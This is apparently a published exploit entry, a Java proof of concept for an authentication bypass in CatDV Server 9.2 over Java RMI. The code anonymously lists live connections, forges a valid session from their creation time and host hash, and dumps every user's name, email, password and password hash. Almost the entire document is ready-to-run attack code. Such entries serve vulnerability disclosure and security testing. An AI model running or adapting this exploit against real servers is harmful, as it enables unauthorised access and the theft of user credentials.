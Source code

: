 EXP
---

    # Exploit Title: CatDV 9.2 - RMI Authentication Bypass
    # Exploit Author: Christopher Ellis, Nick Gonella, Workday Inc.
    # Vendor Homepage: https://catdv.com/
    # Software Link: https://www.squarebox.com/download/CatDVServer9.2.0.exe
    # Version: 9.2 and lower
    # Tested on: Windows, Mac

    import org.h2.engine.User;
    import squarebox.catdv.shared.*;

    import java.net.MalformedURLException;
    import java.rmi.Naming;
    import java.rmi.NotBoundException;
    import java.rmi.RemoteException;

    public class Runnable {
        public Runnable() throws RemoteException, NotBoundException, MalformedURLException { }

        private static int getValidSession(long createdTime, String claimedHost) {
            return (int)createdTime + claimedHost.hashCode();
        }

        private static void printFields(SField[] fields) {
            for (SField field : fields) {
                System.out.println(field.fieldDefID);
                System.out.println(field.value);
                System.out.println(field.fieldDefinition);
            }
        }

        public static void main(String args[]) throws RemoteException, NotBoundException, MalformedURLException {
            String target = "rmi://<HOST>:1099/CatDVServer";

            ServerAPI look_up = (ServerAPI) Naming.lookup(target);

            System.out.println("Trying to get all connections");
            SConnection[] connections = look_up.getConnections();
            for (SConnection element : connections) {
                System.out.println("Found connection:");
                System.out.println("CatDVUser:"+ element.catdvUser);
                System.out.println("ApiVersion:"+ element.apiVersion);
                System.out.println("User:"+ element.user);
                System.out.println("ClaimedHost:"+ element.claimedHost);
                System.out.println("ActualHost:"+ element.actualHost);
                System.out.println("Created:"+ element.created);
                System.out.println("LastUsed:"+ element.lastUsed);
                System.out.println("Client features:"+ element.clientFeatures);
                System.out.println("\n");
            }

            System.out.println("Getting system properties");
            System.out.println("Running from: "+look_up.getProperty("user.dir"));
            System.out.println("Running on: "+look_up.getProperty("os.arch"));
            System.out.println("Java version: "+look_up.getProperty("java.version"));

            //We can create a new client from most of the fields found in the existing connections which we can dump anonymously
            ClientID bob=new  ClientID(
                    connections[0].catdvUser,
                    connections[0].claimedHost,
                    getValidSession(connections[0].created,connections[0].claimedHost),
                    connections[0].created,
                    "");

            System.out.println("\nCreated a new client with parameters: \n" +
                    "" + "user:"+connections[0].catdvUser+"\n"+
                    "" + "claimedHost:"+connections[0].claimedHost+"\n"+
                    "" + "session:"+getValidSession(connections[0].created,connections[0].claimedHost)+"\n"+
                    "" + "created:"+connections[0].created+"\n"+
                    "" + "pubkey:"+""+
                    "");


            String status = look_up.getStatus(bob);
            System.out.println("Status is: \n "+status);

            System.out.println("Attempting to dump users: \n");
            SUser[] users=look_up.getUsers(bob, -1);
            for (SUser element: users) {

                System.out.println(element.name);
                System.out.println(element.passwordHash);
                    System.out.println("id:" + element.ID);
                    System.out.println("realname:" + element.realname);
                    System.out.println("email:" + element.email);
                    System.out.println("password:" + element.password);
                    System.out.println("notes:" + element.notes);
                    System.out.println("inactive:" + element.inactive);
                    System.out.println("RoleiD:" + element.roleID);
                    System.out.println("hash:" + element.passwordHash);
                    System.out.println("");
            }

        }

    }